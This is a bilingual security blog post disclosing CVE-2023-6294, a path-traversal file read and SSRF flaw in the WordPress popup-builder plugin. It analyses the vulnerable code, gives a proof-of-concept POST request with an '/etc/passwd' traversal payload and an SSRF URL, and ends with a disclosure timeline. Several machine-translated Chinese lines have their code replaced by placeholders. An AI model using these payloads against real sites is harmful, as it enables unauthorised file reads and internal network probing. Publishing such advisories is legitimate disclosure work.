 

# CVE-2023-6294：popup-builder <= 4.2.6 Admin+ SSRF & File Read|塞巴斯蒂安尼夫 -0day.work

In this blog post I'll describe the details of CVE-2023-6294, a local file inclusion in WordPress' popup-builder plugin.  
在这篇博客文章中，我将描述 CVE-2023-6294 的细节，这是 WordPress 的 popup-builder 插件中的本地文件包含。

First of all, this vulnerability is only exploitable in *multi-site* WordPress installations with at least subsite administrator privileges.  
首先，此漏洞仅可在至少具有子站点管理员权限的多站点 WordPress 安装中利用。  
Successful exploitation can lead to SSRF and arbitrary file read.  
成功利用该漏洞可导致 SSRF 和任意文件读取。

# Theory 理论

Let's dive into the code to get a deeper understanding.  
让我们深入代码以获得更深入的理解。

The API action `sgpb_import_subscribers` takes the parameter `importListURL` and eventually passes it to `wp_remote_get()` and `file()`.  
API 操作#0 #接受参数#1 #，并最终将其传递给#2 #和#3 #。

In `popup-builder/com/classes/Ajax.php` the constructor calls `$this->actions()`, which first evaluates the user's permissions using `$allowToAction = AdminHelper::userCanAccessTo();` and then registers the API action `add_action('wp_ajax_sgpb_import_subscribers', array($this, 'importSubscribers'));`.  
在#0 #中，构造函数调用#1 #，它首先使用#2 #评估用户的权限，然后注册 API 操作#3 #。

`userCanAccessTo()` is defined in `popup-builder/com/helpers/AdminHelper.php` and checks if the requesting user has the correct permissions and roles to access the API. So far, so good.  
`userCanAccessTo()` 在#1 #中定义，用于检查请求用户是否具有访问 API 的正确权限和角色。到目前为止，一切顺利。

Back in `Ajax.php`, the API's callback `importSubscribers()` is defined, where it first validates the nonce (`check_ajax_referer(SG_AJAX_NONCE, 'nonce');`) and then defines `$fileURL`: `$fileURL = isset($_POST['importListURL']) ? sanitize_text_field($_POST['importListURL']) : '';`  
回到#0 #，定义了 API 的回调#1 #，它首先验证随机数（#2 #），然后定义#3 #：#4 #  
Interestingly, there is a call to `sanitize_text_field`, but this WordPress built-in function does not sanitize the string for path traversal issues, only cross-site scripting and others.  
有趣的是，有一个对 `sanitize_text_field` 的调用，但是这个 WordPress 内置函数并没有清理路径遍历问题的字符串，只有跨站点脚本和其他问题。

The function then continues to capture the output buffer of the `importConfigView.php`:  
然后，该函数继续捕获 `importConfigView.php` 的输出缓冲区：

```php
ob_start();
require_once SG_POPUP_VIEWS_PATH.'importConfigView.php';
$content = ob_get_contents();
ob_end_clean();
```

This file is at `popup-builder/public/views/importConfigView.php` and it first passes `$fileURL` to `getFileFromURL`, which in turn will call `wp_remote_get()`: `$fileContent = AdminHelper::getFileFromURL($fileURL);`.  
这个文件位于 `popup-builder/public/views/importConfigView.php` ，它首先将 `$fileURL` 传递给 `getFileFromURL` ，然后调用 `wp_remote_get()` ： `$fileContent = AdminHelper::getFileFromURL($fileURL);` 。

Further, it executes the following line to read from `$fileURL`:  
此外，它执行以下行从 `$fileURL` 读取：  
`$csvFileArray = array_map('str_getcsv', file($fileURL));`

With that, the former allows to send HTTP requests to the URL provided in `importListURL` resulting in server-side request forgery (SSRF) and the latter allows to read arbitrary files by setting it to a file path.  
因此，前者允许向 `importListURL` 中提供的 URL 发送 HTTP 请求，导致服务器端请求伪造（SSRF），后者允许通过将其设置为文件路径来读取任意文件。

# Proof of Concept 概念验证

To see the vulnerabilities in action, first configure a multi-site WordPress installation with a separate subsite and non-superadmin account.  
要查看实际漏洞，请首先使用单独的子站点和非超级管理员帐户配置多站点 WordPress 安装。

Login as the subsite administrator and navigate to the popup-builder plugin in the menue. Create a dummy subscription, so that it shows up on the Import/Export settings page.  
以子站点管理员身份登录，然后导航到菜单中的弹出构建器插件。创建一个虚拟订阅，以便它显示在导入/导出设置页面上。

When submitting the import form, the following request will be send to the WordPress backend:  
当提交导入表单时，以下请求将被发送到 WordPress 后端：

```bash
POST /site2/wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Length: 156
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: [cookie]
Connection: close

action=sgpb_import_subscribers&nonce=7ab37e2ddd&popupSubscriptionList=8&importListURL=<import-path>&beforeSend=
```

When the `importListURL` is set to `../../../../../../../../../../../../../../../../etc/passwd`, the output will contain the first line of the `/etc/passwd`'s contents:  
当 `importListURL` 设置为 `../../../../../../../../../../../../../../../../etc/passwd` 时，输出将包含 `/etc/passwd` 内容的第一行：

```bash
<div class="subFormItem__title">
	root:x:0:0:root:/root:/bin/bash				
</div>
```

[![popup-builder-path-traversal.png](assets/1706773853-f640019e372f909f2e8c0167a93e1545.png)](https://0day.work/content/images/2023/12/popup-builder-path-traversal.png)

Similarly, when we set `importListURL` to an URL, we can exploit the SSRF. For example, we start a simple HTTP server on localhost (`python -m http.server 1337`) and send a request to it with `importListURL=http://localhost:1337`. The output is:  
同样地，当我们将 `importListURL` 设置为 URL 时，我们可以利用 SSRF。例如，我们在 localhost（ `python -m http.server 1337` ）上启动一个简单的 HTTP 服务器，并使用 `importListURL=http://localhost:1337` 向其发送请求。输出为：

```bash
<div class="subFormItem__title">
	Hacked			
</div>
```

[![popup-builder-ssrf.png](assets/1706773853-22bd9c4f219a4197da4f55eb7d9e5d41.png)](https://0day.work/content/images/2023/12/popup-builder-ssrf.png)

# Timeline 时间轴

-   2023.06.28 - Initial discovery  
    2023.06.28 -首次发现
-   2023.07.03 - Report to plugin developers  
    2023.07.03 -向插件开发人员报告
-   2023.11.22 - Report to WPScan to assign CVE-ID  
    2023.11.22 -向 WPScan 报告以分配 CVE-ID
-   2023.11.24 - Vulnerability acknowledged and CVE assigned  
    2023.11.24 -确认漏洞并分配 CVE
-   ~ 2023.12.28 - New version released  
    ~ 2023.12.28 -新版本发布
-   2024.01.31 - Public disclosure  
    2024.01.31 -公开披露
